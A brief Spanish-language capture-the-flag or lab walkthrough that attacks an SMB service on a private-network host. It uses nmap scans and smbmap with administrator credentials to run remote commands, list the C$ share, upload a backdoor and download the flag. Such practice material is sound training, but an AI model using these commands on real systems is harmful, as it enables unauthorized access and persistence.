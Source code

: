# Ciber

 Primero hacemos un nmap
		`nmap 192.168.18.47`
1. Hacemos nmap más detallado
		`nmap -p445 --script smb* 192.168.18.47`
 2. Utilizamos smbmap:
		 `smbmap -u guest -p "" -d . -H 192.168.18.47`
 3. Ahora como administrador:
 		`smbmap -u administrator -p Temporal.23! -d . -H 192.168.18.47`
 4. Ejecutamos comandos:
			`smbmap -u administrator -p Temporal.23! -H 192.168.18.47 -x whoami` 
			`smbmap -u administrator -p Temporal.23! -H 192.168.18.47 -x "ping 192.168.18.30"`
			`tcpdump -niv enp0s5 icmp`
 5. Listar discos:
			`smbmap -H 192.168.18.47 -u administrator -p Temporal.23! -L`
 6. Listar contenidos de un disco:
			`smbmap -H 192.168.18.47 -u administrator -p Temporal.23! -r C$`
 7. Subir un backdoor:
			`smbmap -H 192.168.18.47 -u administrator -p Temporal.23! --upload "./backdoor" "C$\backdoor"`
8. Nos bajamos la flag:
            `smbmap -H 192.168.18.47 -u administrator -p Temporal.23! --download "C$\flag.txt"`
           
